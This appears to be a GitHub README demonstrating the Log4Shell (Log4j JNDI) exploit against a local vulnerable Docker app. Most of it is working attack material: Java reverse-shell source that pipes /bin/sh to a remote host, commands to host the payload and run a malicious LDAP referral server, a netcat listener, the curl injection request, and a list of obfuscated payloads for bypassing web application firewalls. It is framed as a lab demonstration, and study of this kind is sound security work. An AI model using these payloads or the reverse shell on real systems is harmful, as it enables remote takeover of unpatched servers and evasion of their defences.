 # log4jshell
log4j setup demonstration


# Setting up docker and running vulnerable web application on docker container
Install docker in kali linux

Then download the below repository

```
sudo git clone https://github.com/christophetd/log4shell-vulnerable-app.git
```

Then the run the below commands to start vulnerable web application on port 8080
```
sudo docker build . -t vulnerable-app
```
```
sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
# Creating payload and setting up python server

Use below java code and save it as Exploit.java

Change the host and port details as you setup for nc listner

```javascript
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

  public Exploit() throws Exception {
    String host="%s";
    int port=%s;
    String cmd="/bin/sh";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()) {
      while(pi.available()>0)
        so.write(pi.read());
      while(pe.available()>0)
        so.write(pe.read());
      while(si.available()>0)
        po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
        p.exitValue();
        break;
      }
      catch (Exception e){
      }
    };
    p.destroy();
    s.close();
  }
}
```

Run the below command to build Exploit.class

Install javac package with below command
```
sudo apt install default-jdk
```
```
sudo javac Exploit.java -source 8 -target 8
```
```
sudo python3 -m http.server 8888
```
# Setting up LDAP server
```
sudo git clone https://github.com/mbechler/marshalsec.git
```
```
sudo mvn package -DskipTests
```
```
cd target
```
```
sudo java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Exploit"
```
setup netcat listner
```
sudo nc -lvp 9999
```
# will execute below payload to get a shell
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Exploit\}
```
# WAF bypass
```
${\u006a\u006e\u0064\u0069:ldap://your-private-ip:1389/Exploit\}
```
```
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://your-private-ip:1389/Exploit\}
```
```
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}://your-private-ip:1389/Exploit\}
```
```
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://your-private-ip:1389/Exploit\}
```
```
${jnd${sys:SYS_NAME:-i}:ldap://your-private-ip:1389/Exploit\}
```
```
${jnd${upper:ı}:ldap://your-private-ip:1389/Exploit\}
```
```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://your-private-ip:1389/Exploit\}
```
```
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://your-private-ip:1389/Exploit\}
```
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//your-private-ip:1389/Exploit\}
```
